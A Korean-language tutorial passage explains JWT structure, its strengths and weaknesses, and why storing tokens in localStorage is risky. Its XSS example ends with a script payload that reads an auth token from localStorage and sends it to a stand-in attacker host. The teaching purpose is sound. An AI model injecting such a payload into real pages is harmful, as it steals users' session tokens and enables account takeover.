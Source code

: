 인코딩 된 헤더, 인코딩된 페이로드, 비밀키, 헤더에 지정된 알고리즘을 사용하여 생성됩니다. 서명은 토큰의 무결성을 확인하고, 클라이언트와 서버 간에 전송된 데이터가 변조되지 않았음을 보장하는 역할을 합니다.

JWT의 헤더와 페이로드는 각각 Base64URL로 인코딩 된 후, 마침표(.)로 결합한 후 헤더에 명시된 알고리즘을 사용하여 결합된 문자열을 비밀 키와 함께 서명합니다.
```js
base64UrlEncode(HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret))
```


### 2.4 JWT 장점, 단점

#### 2.4.1 JWT 장점
1. 상태 비저장성: 서버가 사용자 세션을 유지할 필요없이, 각 요청에 필요한 정보를 JWT가 자체적으로 포함하고 있어 서버 확장성이 높습니다.
2. 빠른 인증 처리: 클라이언트 측에서 필요한 모든 인증 정보를 포함하고 있어 서버 요청마다 데이터 베이스 조회 없이 빠르게 인증을 처리할 수 있습니다.
3. 다양한 환경에서의 사용 용이성: JWT는 JSON 형식을 사용하므로, 웹, 모바일, 마이크로서비스 등 다양한 플랫폼에서 쉽게 통하고 사용할 수 있습니다.

#### 2.4.2 JWT 단점
1. 토큰 취소 어려움: JWT는 발급 후 취소가 어렵기 때문에, 유효기간이 지나기 전까지는 권한 변경 사항이 즉각 반영되지 않습니다.
2. 데이터 노출 위험: JWT는 기본적으로 서명만 되어 있고 암호화되지 않으므로, Bas64URL 디코딩으로 쉽게 내용을 볼 수 있습니다. 민감한 정보는 포함하지 않거나 추가 암호화가 필요합니다.
3. 토큰 크기 제한: JWT는 크기가 비교적 크기 때문에 HTTP 헤더에 포함할 때 네트워크 트래픽이 증가할 수 있습니다.



### 3. Access Token과 Refresh Token: 어디에 저장해야 할까?

#### 3.1 LocalStorage, Session Storage에 토큰 저장

가장 저장하고 사용하기 편한 로컬스토리지에 대해서 먼저 알아보겠습니다. 개발 초반에는 사용하기도 편하고 저장도 하기 쉬워서 대부분 로컬스토리지에 저장을 했었던 거 같습니다. 이후 요청시에 헤더에 토큰을 포함해서 서버로 요청을 했습니다. 하지만 로컬스토리지에 토큰을 보관하는건 가장 안좋은 보관장소 입니다.

로컬스토리지에 토큰을 보관하면 Javascript로 접근할 수 있다는 점이 보안상의 가장 큰 단점입니다. 이로 인해 악성 스크립트가 웹페지에 주입될 경우, 해당 스크립트가 토큰을 탈취할 수 있십니다. 이러한 XSS 공격에 취약하기 때문에 보안에 민감한 환경에서는 **로컬스토리지에 토큰을 저장하는것은 권장되지 않습니다**.


#### 3.2 XSS(Cross-Site Scripting)

XSS는 웹 어플리케이션 취약점 중 하나로, 공격자가 악성 스크립트를 웹 페이지에 삽입하여 다른 사용자의 브라우저에서 실행되게 하는 공격기법입니다. 이를 통해 공격자는 사용자의 토큰을 탈취하거나, 웹사이트를 변조하거나, 악성 컨텐츠로 리다이렉션하는 등의 악의적인 행위를 할 수 있습니다.

- 유형
  - 저장형 XSS(Stored XSS): 악성 스크립트가 서버에 저장되어 다른 사용자가 페이지를 요청할 때마다 전송됩니다.
  - 반사형 XSS(Reflected XSS): 악성 스크립트가 요청의 일부로 서버에 반사되어 응답으로 돌아옵니다.
  - DOM 기반 XSS: 클라이언트 측 스크립트가 DOM을 수정하여 악성 코드를 실행합니다.

예를 들어 설명을 해보겠습니다.

1.특정 쇼핑몰에서 사용자 인증을 위해 JWT(JSON Web Token)을 사용하며, 해당 토큰을 저장합니다. 

2.해당 쇼핑몰의 제품 리뷰 기능에서 XSS 취약점을 발견합니다. 이 취약점은 사용자 입력이 제대로 sanitize 되지 않는것을 확인했습니다.

3.악성스크립트를 개발합니다.
```js
<script>
  const token = localStorage.getItem('auth_token');
  const xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://atacker-hacker.com/steal?token=' + encodeURIComponent(token), true);
  xhr.send();
</script>
```
이 스크립트는 LocalStorage 에서 auth_token을 읽어 해커의 서버로 전송합니다.
